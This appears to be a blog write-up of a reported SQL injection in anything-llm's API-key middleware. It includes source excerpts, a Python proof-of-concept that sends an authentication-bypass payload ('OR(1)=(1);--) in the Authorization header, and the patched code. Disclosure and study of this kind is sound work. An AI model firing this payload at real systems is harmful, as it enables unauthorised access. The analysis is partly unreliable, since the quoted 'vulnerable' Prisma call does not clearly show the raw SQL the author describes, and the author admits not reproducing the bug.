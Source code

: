 


# Overview

This vulnerability was reported by [vxhid](https://huntr.com/users/vvxhid), the vulnerability as quoted in the description:

> The validApiKey middleware, which is responsible for verifying API keys provided in the request's Authorization header, is susceptible to SQL injection. This vulnerability can potentially lead to an authentication bypass, granting unauthorized access to API endpoints.

Aside from the fact that the severity is critical here due to the impact of the SQL injection attack, this vulnerability arises as the application is designed to fetch the Authorization header value and doing a quick lookup in the database to see if that particular token exists or not. Due to lack of proper sanitization as this value could be attacker controlled, it was possible to leverage it for performing SQL Injection.

Source link for the reported vulnerabilities are as follows:
* https://huntr.com/bounties/70a2fb18-f030-4abb-9ddc-13f94107ac9d/


### Source Analysis

As mentioned in the report, the affected file was [](https://github.com/Mintplex-Labs/anything-llm/blob/master/server/utils/middleware/validApiKey.js#L17) which is as follows:

```ts
const { ApiKey } = require("../../models/apiKeys");
const { SystemSettings } = require("../../models/systemSettings");

async function validApiKey(request, response, next) {
  const multiUserMode = await SystemSettings.isMultiUserMode();
  response.locals.multiUserMode = multiUserMode;

  const auth = request.header("Authorization");
  const bearerKey = auth ? auth.split(" ")[1] : null;
  if (!bearerKey) {
    response.status(403).json({
      error: "No valid api key found.",
    });
    return;
  }

  if (!(await ApiKey.get({ secret: bearerKey }))) {
    response.status(403).json({
      error: "No valid api key found.",
    });
    return;
  }

  next();
}

module.exports = {
  validApiKey,
};
```

As you can see, it extracts the "Authorization" header value by splitting it with the whitespace delimeter and then using the second index value which will be the token i.e. `bearerKey` which is later passed to `ApiKey.get` which is a method to retrieve the key from the database using `prisma` (it is a database toolkit for access and management in TypeScript) which the application is making use of.

```ts
 get: async function (clause = {}) {
    try {
      const apiKey = await prisma.api_keys.findFirst({ where: clause });
      return apiKey;
    } catch (error) {
      console.error("FAILED TO GET API KEY.", error.message);
      return null;
    }
  },
```

### Proof of Concept

How we can say something is vulnerable without the proof-of-concept? Apparently, I was having trouble setting up the vulnerable version of the application even with the docker so I am going to reference it from the report itself:

```py
import requests

url = "http://localhost:3001/api/v1/system"

headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Referer": "http://localhost:3000/",
    "Connection": "close",
    "Authorization": "Bearer not_valid_api_key'OR(1)=(1);--", # Injection here
    "Upgrade-Insecure-Requests": "1",
    "Sec-Fetch-Dest": "document",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-User": "?1",
    "If-None-Match": "W/\"773-MdgLun6ESFXPFk/WGHQAe92jMuI\"",
}

response = requests.get(url, headers=headers)

print(response.text)
```

Here, as you can see the value of the "Authorization" header is `Bearer not_valid_api_key'OR(1)=(1);--`, now according to what we saw the data process will happen eventually taking the value `not_valid_api_key'OR(1)=(1);--` which will be passed to the key retrieval function insecurely resulting in SQL Injection.

### Fix

This was fixed by the maintainer of the repository made a commit escaping quotes which may lead to any potential harm by using `escape` function of [sqlstring](https://www.npmjs.com/package/sqlstring) package.

The patched code:

```ts
const { escape } = require("sqlstring-sqlite");
const { ApiKey } = require("../../models/apiKeys");
const { SystemSettings } = require("../../models/systemSettings");

async function validApiKey(request, response, next) {
  const multiUserMode = await SystemSettings.isMultiUserMode();
  response.locals.multiUserMode = multiUserMode;

  const auth = request.header("Authorization");
  const bearerKey = auth ? auth.split(" ")[1] : null;
  if (!bearerKey) {
    response.status(403).json({
      error: "No valid api key found.",
    });
    return;
  }

  if (!(await ApiKey.get(`secret = ${escape(bearerKey)}`))) {
    response.status(403).json({
      error: "No valid api key found.",
    });
    return;
  }

  next();
}

module.exports = {
  validApiKey,
};
```
